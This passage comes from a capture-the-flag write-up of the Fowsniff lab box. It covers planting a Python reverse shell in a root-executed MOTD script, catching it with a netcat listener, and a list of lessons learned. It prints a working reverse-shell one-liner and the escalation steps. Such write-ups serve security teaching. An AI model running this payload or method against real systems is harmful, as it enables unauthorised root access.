python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.164.247",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


**Test run after saving:**
```bash
nano /opt/cube/cube.sh
/opt/cube/cube.sh
```


**Why test it manually first, before relying on the MOTD trigger:** running it directly as `baksteen` first confirms the script is syntactically valid and doesn't error out, *before* betting on the MOTD mechanism to fire it with root privileges. (Run manually like this, the reverse-shell connection attempt just hangs/fails quietly since no listener is up yet — that's expected and fine; the real trigger comes next.)

### 7.5 Catching the root shell

**Steps:**
1. Start a listener: `nc -lvp 4444`
2. Open a **new** SSH session as `baksteen` (this re-triggers the MOTD chain, running the now-weaponized `cube.sh` **as root**)
3. The listener catches an interactive shell — running as **root**, since it was launched through the root-owned MOTD execution path rather than as `baksteen` directly.

**Why re-logging in (rather than just running the script again by hand) was necessary:** running `cube.sh` manually as `baksteen` only ever executes it *as* `baksteen` — the privilege escalation specifically depends on the script being invoked through the `/etc/update-motd.d/00-header` → `sh /opt/cube/cube.sh` chain, which only fires automatically on a **new interactive SSH login**, at which point it runs with root's privileges regardless of who's connecting.

---

## Full Lessons Learned

1. **A public breach notice is itself a recon goldmine.** The website didn't just hint at a vulnerability — it directly told me a leak existed and named the affected social handle, which was enough to locate the actual dump. Real companies handling a breach disclosure should assume attackers will read that notice exactly this way.

2. **Old leaks don't expire as attack material.** A years-old Pastebin, mirrored on GitHub, produced a working, valid password in this exact box. Password reuse (and reuse of old, "already leaked" passwords specifically) remains one of the most reliable ways in — which is exactly why credential-leak monitoring and mandatory rotation after a breach both matter operationally, not just as compliance checkboxes.

3. **Paired credentials should be brute-forced as pairs, not combinations.** Using `USERPASS_FILE` instead of separate `USER_FILE`/`PASS_FILE` wasn't just a minor optimization — it reflected the actual shape of the data (a leak gives you *matched* username:password pairs, not two independent lists), and using the right primitive for that shape is a real methodology skill.

4. **Reading a mailbox by hand over raw POP3 is worth doing even when a client "would be easier."** It surfaced a second person's credentials as a side effect of internal company chatter — something automated tooling might have skipped past if it were only looking for an explicit "password:" pattern.

5. **Group-executable files are a real, easily-missed privilege boundary.** `baksteen` couldn't write to anything owned by `root`, but *could* write to something a root-run process would later execute — the actual danger wasn't file ownership, it was **execution context**. This is a genuinely common real-world misconfiguration pattern (a "helper" script owned by a shared group, called by a privileged process) and worth specifically checking for on every Linux box going forward: not just "what's SUID," but "what's group-writable that something privileged might call."

6. **MOTD scripts are a legitimate, underrated privesc vector.** They're easy to overlook because they seem purely cosmetic (just a login banner), but anything they call inherits root — and on a freshly-landed low-privilege shell, checking `/etc/update-motd.d/` for anything unusual is now a permanent item on my personal escalation checklist, alongside the more commonly-taught SUID/sudo/cron checks.

---

## Skills Demonstrated

`Service Enumeration` · `OSINT / Public Breach Research` · `MD5 Hash Cracking` · `Metasploit Auxiliary Modules (pop3_login)` · `Manual POP3 Protocol Interaction` · `Credential Reuse Analysis` · `Linux Group Permission Enumeration` · `MOTD Script Privilege Escalation` · `Reverse Shell Delivery`

---

## References

- [TryHackMe — Fowsniff CTF](https://tryhackme.com/room/ctf) *(originally created by [berzerk0](https://twitter.com/berzerk0) for VulnHub, used here with permission)*
- [CrackStation — Free Password Hash Cracker](https://crackstation.net/)
- [PentestMonkey — Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Hacking Articles — Fowsniff:1 (VulnHub) Walkthrough](https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/)
